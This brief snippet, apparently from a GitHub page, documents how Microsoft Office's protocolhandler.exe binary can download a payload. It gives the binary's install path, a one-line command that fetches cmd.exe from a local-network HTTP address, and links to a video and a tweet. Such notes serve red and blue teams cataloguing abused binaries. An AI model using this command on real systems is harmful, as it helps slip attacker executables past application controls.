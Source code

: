 Payload download via Office Binary protocolhandler.exe

C:\[office installed folder]\root\[version]\
protocolhandler.exe "http://192.168.1.111/cmd.exe"

https://youtu.be/eUTFeRwZxH0 


https://twitter.com/reegun21/status/1220561299009990656?s=20
